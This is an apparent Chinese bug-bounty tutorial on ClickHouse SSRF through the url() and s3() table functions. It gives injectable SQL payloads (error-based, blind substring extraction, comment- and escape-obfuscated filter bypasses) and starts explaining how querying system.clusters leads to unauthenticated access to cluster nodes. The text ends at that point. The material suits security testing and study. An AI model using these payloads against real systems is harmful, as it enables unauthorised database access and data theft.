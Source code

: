 Clickhouse的SSRF根据目前实战的经验来看，主要是由URL函数和S3函数未禁用导致的，URL函数未禁用的情况居多，S3函数取决于业务是否需要  
提供 S3 特定的功能。  
  
1）由URL函数引起的SSRF漏洞  
  
Clickhouse官方文档针对URL函数的说明及用法如下：  
https://clickhouse.com/docs/en/sql-reference/table-functions/url  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gv0KFFo8icCTqNLNajpuaTmeekpMVZ9ItKsfej7ibR2t5PQmgZU9JhibuZ75CzVRKLzg6yicicxD7Dj09IYoia65BIXg/640?wx_fmt=png&from=appmsg "")  
  
  
用法很简单，直接套语句拼接即可，直接放几个常用的SSRF漏洞利用证明语句：  

```
针对报错注入场景，使用select * from url(‘https://www.baidu.com', CSV, 'column1 String, column2 UInt32’) 回显百度主页的内容，及证明存在ssrf漏洞
若是盲注，若需要SSRF漏洞利用，则需要进行字符串截取（难度较大，危害可能会降低），toInt64(if((select substring(c,1,1) from url(‘https://www.baidu.com',TabSeparated,'c String') limit 0,1)='A',1,exp(71000)))
```

  
2)  
由S3函数引起的SSRF漏洞:  
https://clickhouse.com/docs/en/sql-reference/table-functions/s3  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/gv0KFFo8icCTqNLNajpuaTmeekpMVZ9ItS2AaDrLrq1jHPicUsA0YF9CqEA6FribLuQ84NcYsLOVz6E9qNaPVzqKg/640?wx_fmt=png&from=appmsg "")  
  
  
简单的验证payload：  

```
s3('https://www.baidu.com',RawBLOB)
SELECT * FROM s3('https://datasets-documentation.s3.eu-west-3.amazonaws.com/aapl_stock.csv','CSVWithNames’) LIMIT 5;
s3('https://www.baidu.com','CSVWithNames'
```

  
放几个实战中针对clickhouse或者clickhouse二开的函数url绕过的payload：  

```
SELECT * from `url\\\\\\\\x23`(‘https://www.baidu.com',TSV,'column1 String’)
(select/*//**/1,*,1/**/from/*//**/url('https://www.baidu.com',CSV,'column1 String') ) as a
```

  
2、URL函数后的深入利用  
  
通过SSRF证明内网连通性以及访问元数据相关的危害不多做说明，大家需要注意点到为止即可。  
我补充下敏感数据层面的深入利用：  
  
Clickhouse有很多system表，具体信息可以参考下官方的文档：  
  
  
https://clickhouse.com/docs/en/sql-reference  
，其中system.clusters表个人认为比较关键，因为在SRC漏洞挖掘中，可以将一枚中高危的sql注入漏洞提升到严重危害：  
  
**system.clusters表，存储数据库集群的节点信息，可以通过相关查询控制数据库集群权限。**  
  
大概思路就是：  
先通过查询system.clusters表获取数据库集群的ip信息，再利用clickouse默认会使用一个组件导致会开启8123或者8124端口的特性，从而可以去未授权查询数据库集群里面的所有数据信息：  
